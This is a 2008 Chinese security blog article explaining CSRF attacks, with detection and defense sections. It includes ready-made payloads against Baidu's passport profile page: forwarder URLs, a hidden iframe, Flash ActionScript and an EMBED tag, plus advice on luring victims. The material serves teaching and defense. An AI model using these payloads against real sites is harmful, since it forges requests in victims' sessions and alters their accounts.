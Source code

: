 ```yaml
---
title: CSRF的攻击与防御
description: CSRF是CrossSiteRequestForgery的缩写（也缩写为XSRF），直译过来就是跨站请求伪造的意思，也就是在用户会话下对某个CGI做一些GET/POST的事情——这些事情用户未必知道和愿意做，你可以把它想做HTTP会话劫持。
date: 2008-04-11 09:15:39
category: 技术文章
tags: ['CSRF', '技术类', '安全']
post_id: 447
alias: CSRF-GongJu-Yu-FangYu
ViewNums: 5854
---
```


作者：lake2
来源：lake2的专栏

**0x01 什么是CSRF攻击**

[CSRF](/tags/CSRF)是Cross Site Request Forgery的缩写（也缩写为XSRF），直译过来就是跨站请求伪造的意思，也就是在用户会话下对某个CGI做一些GET/POST的事情——这些事情用户未必知道和愿意做，你可以把它想做HTTP会话劫持。
网站是通过cookie来识别用户的，当用户成功进行身份验证之后浏览器就会得到一个标识其身份的cookie，只要不关闭浏览器或者退出登录，以后访问这个网站会带上这个cookie。如果这期间浏览器被人控制着请求了这个网站的url，可能就会执行一些用户不想做的功能（比如修改个人资料）。因为这个不是用户真正想发出的请求，这就是所谓的请求伪造；呵呵，因为这些请求也是可以从第三方网站提交的，所以前缀跨站二字。
举个简单的例子，某个bbs可以贴图，在贴图的URL中写入退出登陆的链接，当用户阅读这个帖子之后就会logout了，因为用户以自己的身份访问了退出登陆链接，在用户看来是帖子里面有一张有问题的“图片”，而不是想要退出，但程序就会认为是用户要求退出登陆而销毁其会话。这就是传说中的CSRF攻击了。
不要小看CSRF哦，记得以前L-Blog就存在一个CSRF漏洞（当时还不知道这个概念:p），它添加管理员是这样的一个链接：http://localhost/L-Blog/admincp.asp?action=member&type=editmem& amp;memID=2&memType=SupAdmin，我们只要构造好ID想办法让管理员访问到这个URL就可以了；还有Google那个 CSRF漏洞[1]，将导致邮件泄漏；另外，不要以为只有XSS才能爆发[蠕虫](http://www.virus-info.cn/virus/Worm.html)，只要条件合适，CSRF同样是有可能的。

**0x02 威胁来自哪里**

贴图只是GET的方式，很多时候我们需要伪造POST的请求。一个办法是利用跨站，当然目标站点可能不存在跨站，这个时候我们可以从第三方网站发动攻击。
比如我要攻击一个存在问题的blog，那就先去目标blog留言，留下一个网址，诱其主人点击过来（这个就要看你的忽悠本事咯:p），然后构造个HTML表单提交些数据过去。
多窗口浏览器就帮了一点忙。
多窗口浏览器（firefox、遨游、MyIE……）便捷的同时也带来了一些问题，因为多窗口浏览器新开的窗口是具有当前所有会话的。即我用IE登陆了我的Blog，然后我想看新闻了，又运行一个IE进程，这个时候两个IE窗口的会话是彼此独立的，从看新闻的IE发送请求到Blog不会有我登录的 cookie；但是多窗口浏览器永远都只有一个进程，各窗口的会话是通用的，即看新闻的窗口发请求到Blog是会带上我在blog登录的cookie。
想一想，当我们用鼠标在Blog/BBS/WebMail点击别人留下的链接的时候，说不定一场精心准备的CSRF攻击正等着我们。

**0x03 发起CSRF攻击**

从第三方站点利用POST发动CSRF攻击就是利用Javascript自动提交表单到目标CGI。每次都去写表单不是很方便，辅助进行的工具有XSS POST Forwarder[2]和CSRF Redirector[3]，这里我也写了相应的ASP版本[4]。使用的时候只要把提交的url和参数传给它，它就会自动POST到目标。
比如我要提交一些数据到www.0x54.org/a.asp：[http://www.0x54.org/lake2](http://www.0x54.org/lake2 "http://www.0x54.org/lake2") /xss_post_forwarder.asp?lake2=http://www.0x54.org/a.asp&a=123& b=321&c=%26%23%25（这里要自己考虑URL编码哦）
不过实际攻击的时候你得动动脑子：如何才能把用户诱骗到我们的网页来。

**0x04 一个实例**

因为CSRF不如XSS那么引人注目，所以现在找一个存在CSRF的Web应用程序还是很容易的。这次我们的目标是百度，just for test。
随便你用什么办法，让一个已登陆百度的用户访问一下这个URL：[http://www.0x54.org/lake2](http://www.0x54.org/lake2 "http://www.0x54.org/lake2") /xss_post_forwarder.asp?lake2=http://passport.baidu.com/ucommitbas&u_jump_url=&sex=1&email=CSRF@baidu.com&sdv=&zodiac=0&birth_year=0&birth_month=0&birth_day=0&blood=0&bs0=%C7%EB%D1%A1%D4%F1&bs1=%C7%EB%D1%A1%D4%F1&bs2=%CE%DE&txt_bs=&birth_site=%3B%3B&b%3Drs0=%C7%EB%D1%A1%D4%F1&rs1=%C7%EB%D1%A1%D4%F1&rs2=%CE%DE&txt_rs=&reside_site=%3B%3B
呵呵，然后看看那人个人资料是不是被修改了。这里有点郁闷，当那人访问URL后浏览器会返回到资料修改成功的页面，我们就被发现了。那么，有没有办法不让浏览器刷新呢？
有。
一个办法是用iframe，构造这样的HTML代码：
```html
<iframe width=0 height=0 src="http://www.0x54.org/lake2/xss_post_forwarder.asp?lake2=http://passport.baidu.com/ucommitbas&u_jump_url=&sex=1&email=CSRF@baidu.com&sdv=&zodiac=0&birth_year=0&birth_month=0&birth_day=0&blood=0&bs0=%C7%EB%D1%A1%D4%F1&bs1=%C7%EB%D1%A1%D4%F1&bs2=%CE%DE&txt_bs=&birth_site=%3B%3B&b%3Drs0=%C7%EB%D1%A1%D4%F1&rs1=%C7%EB%D1%A1%D4%F1&rs2=%CE%DE&txt_rs=&reside_site=%3B%3B"></iframe>
```
还有一个办法就是用flash了。

**0x05 CSRF With Flash**
flash是可以提交数据到任意URL的，打开盗版的 Adobe flash CS 3 Professional，新建一个 flash文件(ActionScript 3.0) ，在默认的图层上点右键选动作，然后把以下代码添加进去：
：
```txt
import flash.net.URLRequest;
import flash.system.Security;
var url = new URLRequest("[http://www.0x54.org/lake2](http://www.0x54.org/lake2 "http://www.0x54.org/lake2")");
var lake = new URLVariables();
lake = "a=lake2";
url.method = "POST";
url.data = lake;
sendToURL(url);
stop();
```
导出为swf文件，访问之，抓包看看效果咯：[http://www.0x54.org/lake2/flash/test1.html](http://www.0x54.org/lake2/flash/test1.html "http://www.0x54.org/lake2/flash/test1.html")
每次都去写as和编译swf很麻烦的，根据CSRF Redirector的思路我写了一个类似的flash程序[5]，再拿百度来试试效果，访问带如下HTML的网页：
```html
<EMBED src="http://www.0x54.org/lake2/flash/flash_hacking.swf?f=1&t=http://passport.baidu.com/ucommitbas&d=u_jump_url%3D %26sex%3D1%26email%3DCSRF@baidu.com%26sdv%3D %26zodiac%3D0%26birth_year%3D0%26birth_month%3D0%26birth_day%3D0%26blood%3D0%26bs0 %3D%25C7%25EB%25D1%25A1%25D4%25F1%26bs1%3D %25C7%25EB%25D1%25A1%25D4%25F1%26bs2%3D%25CE%25DE%26txt_bs%3D %26birth_site%3D%253B%253B%26b%253Drs0%3D %25C7%25EB%25D1%25A1%25D4%25F1%26rs1%3D %25C7%25EB%25D1%25A1%25D4%25F1%26rs2%3D%25CE%25DE%26txt_rs%3D %26reside_site%3D%253B%253B"></EMBED>
```
（还是要注意URL二次编码）
这里不要只局限于发请求，其实flash是可以得到返回内容的，要是返回内容有敏感信息的话，就可以读出来发送到我们控制的Web去。当然，这个得看目标站点是否让flash跨域取内容了。

**0x06 检测CSRF**

检测CSRF漏洞都是体力活了，先抓取一个正常请求的数据包，然后去掉referer字段再重新提交，如果还是有效那基本上就存在问题了。当然参数可能含有不能预测的参数（比如userid什么的），这个时候就看这个不可预测的参数能不能通过其他手段比如flash拿到，如果能，呵呵，则还是存在问题。还有就是试着改post为get，因为有些程序是不区分get/post的。
应用程序的功能和返回形式都各不相同，所以想自动化测试CSRF漏洞还是有点困难的，OWASP上面有一个叫做CSRFTester的工具不妨拿来一试[6]

**0x07 防御CSRF**

在Web应用程序侧防御CSRF漏洞，一般都是利用referer、token或者验证码，Nexus的文章[7]已经写的很全面了；superhei也有提出bypass的思路[8]，请参考他们的文章。
还有一个思路是在客户端防御，貌似可以做成一个类似HTTP Watch的软件，挂在浏览器上拦截或者过滤跨域的cookie。

**0x08 总结**

希望本文对您有帮助，同时也欢迎各位同我交流：lake2@mail.csdn.net

[ Reference ]
[1] Google GMail E-mail Hijack Technique, [http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/](http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/ "http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/")
[2] XSS POST Forwarder, [http://whiteacid.org/misc/xss_post_forwarder.php](http://whiteacid.org/misc/xss_post_forwarder.php "http://whiteacid.org/misc/xss_post_forwarder.php")
[3] CSRF Redirector, [http://shiflett.org/blog/2007/jul/csrf-redirector](http://shiflett.org/blog/2007/jul/csrf-redirector "http://shiflett.org/blog/2007/jul/csrf-redirector")
[4] ASP的XSS POST Forwarder下载(附送一个HTML版), [http://www.0x54.org/lake2/xss_post_forwarder.zip](http://www.0x54.org/lake2/xss_post_forwarder.zip "http://www.0x54.org/lake2/xss_post_forwarder.zip")
[5] 源代码和编译好的swf文件下载：[http://www.0x54.org/lake2/flash/flash_hacking.rar](http://www.0x54.org/lake2/flash/flash_hacking.rar "http://www.0x54.org/lake2/flash/flash_hacking.rar")
[6] CSRFTester, [http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project](http://www.owasp.org/index.php/Category%3AOWASP_CSRFTester_Project "http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project")
[7] Preventing CSRF, [http://www.playhack.net/view.php?id=31.](http://www.playhack.net/view.php?id=31. "http://www.playhack.net/view.php?id=31.") 汉化版, [http://www.hanguofeng.cn/archives/security/preventing-csrf](http://www.hanguofeng.cn/archives/security/preventing-csrf "http://www.hanguofeng.cn/archives/security/preventing-csrf")
[8] Bypass Preventing CSRF, [http://www.xfocus.net/articles/200801/964.html](http://www.xfocus.net/articles/200801/964.html "http://www.xfocus.net/articles/200801/964.html")

